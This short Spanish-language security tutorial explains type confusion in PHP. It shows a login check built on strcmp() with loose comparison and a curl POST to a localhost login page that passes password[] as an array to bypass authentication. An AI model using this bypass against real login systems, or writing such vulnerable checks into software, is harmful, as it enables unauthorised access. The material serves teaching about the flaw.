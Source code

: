 Es una clase de vulnerabilidad en la que un objeto se inicializa o se accede a el como tipo incorrecto, lo que permite eludir la autenticación o socavar la seguridad del tipo aplicación.

Esto se hare en base a un panel login, como bypass, abusando de la función strcmp() de php.

Supongamos que tenemos un login en php y en código donde compara la contraseña se compara con strcmp().
``` php
if(strcmp($_POST['password'], $PASSWORD) == 0){
	echo "Contraseña correcta";
}
```
Y realizamos una peticion POST por curl pero [] dentro del passwd.

	curl -s -X POST --data 'usuario=admin&password[]=contraseña123' http://127.0.0.1/login.php